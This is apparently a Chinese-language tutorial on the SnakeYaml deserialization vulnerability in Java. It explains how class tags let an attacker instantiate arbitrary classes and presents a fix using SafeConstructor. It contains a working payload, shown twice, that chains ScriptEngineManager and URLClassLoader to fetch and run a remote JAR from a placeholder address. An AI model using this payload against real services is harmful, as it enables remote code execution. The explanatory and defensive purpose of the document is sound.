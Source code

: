 SnakeYaml是java解析yaml格式的组件库，SnakeYaml反序列化漏洞不存在版本限制，前提是能控制反序列化数据流。


SnakeYaml反序列化漏洞，不同的数据类型稍有不同：
当数据为键值对时，会调用构造方法和setter方法。
当数据是数组时候会调用构造方法，其中一条攻击链就是利用SPI机制来加载恶意类



## **SnakeYaml使用​**
导入依赖，如果是springboot项目，自带此依赖。
```
<dependency>​
  <groupId>org.yaml</groupId>​
  <artifactId>snakeyaml</artifactId>​
  <version>1.27</version>​
</dependency>
```
```
inputStream = new FileInputStream(filepath);​
yaml = new Yaml();​
// 使用文件输入流读取YAML文件​
yamlMap = yaml.load(inputStream);
```

## **反序列化漏洞**
当数据是数组时候会调用构造方法，其中一条攻击链就是利用SPI机制来加载恶意类：
使用 !!+全类名指定反序列化的类，反序列化过程中会实例化该类。snakeyaml 将全类名解析，并将类使用forname()进行加载，然后通过反射获取构造器，调用构造方法，控制适当的类的构造方法就能进行漏洞攻击。
如
```
!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://127.0.0.1:7788/exp.jar"]]]]
```


^
## **修复**
其实该漏洞涉及到了全版本，只要反序列化内容可控,那么就可以去进行反序列化攻击​
修复方案：加入new SafeConstructor()类进行过滤
```
public class main {​
    public static void main(String[] args) {​
        String context = "!!javax.script.ScriptEngineManager [\n" +​
                "  !!java.net.URLClassLoader [[\n" +​
                "    !!java.net.URL [\"http://127.0.0.1:8888/yaml-payload-master.jar\"]\n" +​
                "  ]]\n" +​
                "]";​
        Yaml yaml = new Yaml(new SafeConstructor());​
        yaml.load(context);​
    }​
}
```
